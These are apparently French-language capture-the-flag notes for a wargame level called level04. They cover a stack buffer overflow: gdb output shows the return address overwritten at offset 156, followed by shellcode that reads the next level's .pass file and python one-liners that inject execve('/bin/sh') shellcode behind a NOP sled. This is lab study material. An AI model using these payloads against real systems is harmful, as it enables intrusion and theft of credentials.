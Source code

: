 # level04

Pour l'instant
```
\x31\xc0\x50\x50\x50\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x8d\x44\x24\x22\x50\x8d\x44\x24\x1e\x50\x8d\x44\x24\x08\x50\x31\xc0\xb0\x05\xcd\x80
```

<!-- >>> "/home/users/level05/.pass"[::-1].encode("hex") -->

https://unix.stackexchange.com/questions/421750/where-do-you-find-the-syscall-table-for-linux

https://github.com/torvalds/linux/blob/v4.17/arch/x86/entry/syscalls/syscall_32.tbl#L17

python -c 'print "A"*157' | ltrace -f ./level04 segv

155 does not segv

156 doubles

0x42424242

With gdb
set follow-fork-mode child

Et avec en entrée `python -c "print 'A'*(156) + 'B'*4"`

Après le gets on a la stack
```
x/100xw $esp
0xffffd650:     0xffffd670      0x00000000      0x00000000      0x00000000
0xffffd660:     0x00000b80      0x00000000      0xf7fdc714      0x00000000
0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd700:     0x41414141      0x41414141      0x41414141      0x42424242

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Notre payload ?
```
# 0xffffd670

\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'"

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'" | ltrace -f ./level04

(python -c "print '\x90'*(32) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A'*(156-32-24) + '\x70\xd6\xff\xff'";) | ltrace -f ./level04

```
